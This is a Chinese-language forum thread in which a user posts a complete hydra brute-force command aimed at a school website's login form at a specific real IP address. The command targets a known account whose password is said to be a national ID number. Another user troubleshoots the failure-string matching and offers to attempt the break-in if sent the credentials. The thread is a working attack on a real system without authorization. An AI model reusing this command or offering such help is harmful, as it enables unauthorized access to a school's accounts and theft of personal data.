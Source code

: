 弹出的框可以当作F黑名单来使用，不过....我的系统似乎无法在命令行执行繁体字，它会产生格式错误，

不知道你哪里会不会有什么问题？

- [abcd6900](https://freeerror.org/u/abcd6900) 赞了

# [M**m4d93aaa**](https://freeerror.org/u/m4d93aaa)

- 2018-11-17 14:44:26

@ zhzy＃440我已经知道帐号，帐号是511106

密码不知道，密码不是空的。

密码是身分证

hydra -l 511106 -P“C：\ Users \ jj lin \ Desktop \ thc-hydra-windows-master \ 5566.txt”-vV -t 10 -f 163.23.157.112 http-post-form“/ winrh /：account = ^ USER ＆Password = ^ PASS ＆submit2 = submit2：F =帐号或密码错误，请再重输入一次...如有问题请洽电脑中心!!“

他的成功破解并不是真正的密码，txt档里有放正确的密码但都不会跳出来，都跳别的密码

- **[zhzy](https://freeerror.org/u/zhzy)**
- 2018-11-17 14:46:53

跳别的是因为，黑白名单设置的原因，比如网站弹出的是繁体，那么你写简体的话一样是不行的，

我不我的终端里没有办法跑繁体～

# [M**m4d93aaa**](https://freeerror.org/u/m4d93aaa)

- 2018-11-17 14:49:59

我的是繁體的但還是一樣不行

[https://www.notion.so//note.youdao.com/src/2A36C74BB7694F66BC41F0B55839CFAC](https://www.notion.so//note.youdao.com/src/2A36C74BB7694F66BC41F0B55839CFAC)

- I是甚麼?
- **[zhzy](https://freeerror.org/u/zhzy)**
- 2018-11-17 14:57:25

可以登录的话尝试白名单试试吧，我解决一下语言格式的问题

# [M**m4d93aaa**](https://freeerror.org/u/m4d93aaa)

- 2018-11-17 15:00:44

這是學校網站，所以學校不提供註冊，但我有帳號密碼需要提供給您嘛?[reply] [/reply]

- **[zhzy](https://freeerror.org/u/zhzy)**
- 2018-11-17 16:13:20

[2227045177@qq.com](https://freeerror.org/d/mailto:2227045177@qq.com)

发我邮箱吧，有时间尝试看看

**14 天后**

# [X**Xingming**](https://freeerror.org/u/Xingming)

- 2018-12-02 00:52:27

为什么试了好几次都显示没有ssid，旁边3个WiFi，一个显示都没有